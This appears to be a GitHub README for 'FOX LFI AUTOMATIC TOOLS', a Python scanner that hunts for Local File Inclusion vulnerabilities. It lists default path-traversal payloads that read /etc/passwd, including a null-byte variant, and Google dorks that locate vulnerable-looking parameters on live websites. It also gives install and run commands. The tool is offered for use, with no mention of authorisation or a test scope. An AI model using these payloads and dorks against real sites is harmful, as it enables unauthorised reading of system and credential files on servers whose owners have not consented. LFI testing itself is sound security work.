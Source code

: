 <a name="readme-top"></a>


<br />
<div align="center">
  <a href="https://github.com/othneildrew/Best-README-Template">
    <img src="https://i.imgur.com/PlZ6PEH.png" alt="Logo">
  </a>

  <h3 align="center">FOX LFI AUTOMATIC TOOLS🦊</h3>

  <p align="center">
    The FOX LFI Scanner is a powerful tool designed for scanning Local File Inclusion vulnerabilities.
  </p>
</div>

## Google Dork
Automatically search for vulnerabilities using google dork

```bash
/db/dorks.txt
```
## Payloads
This uses separate payloads, if you want to add a custom payload, go to:

```bash
/db/payloads.txt
```

Default payloads:
```bash
/etc/passwd
../../../../../../../../../../../etc/passwd
/../../../../../../../../../../../../etc/passwd
/..././..././..././..././..././..././..././etc/passwd%00
../../../../../../../..//etc/passwd
```

### Dork

```bash
inurl:/squirrelcart/cart_content.php?cart_isp_root=
inurl:index2.php?to=
inurl:index.php?load=
inurl:home.php?pagina=
```
## Installation

```bash
https://github.com/sandiskyy/Lfi-fox.git

cd Lfi-fox

pip3 install -r requirements.txt
```

## Usage
```bash
python3 Lfi-fox.py
```
## Note
Using Bing Still Not Working


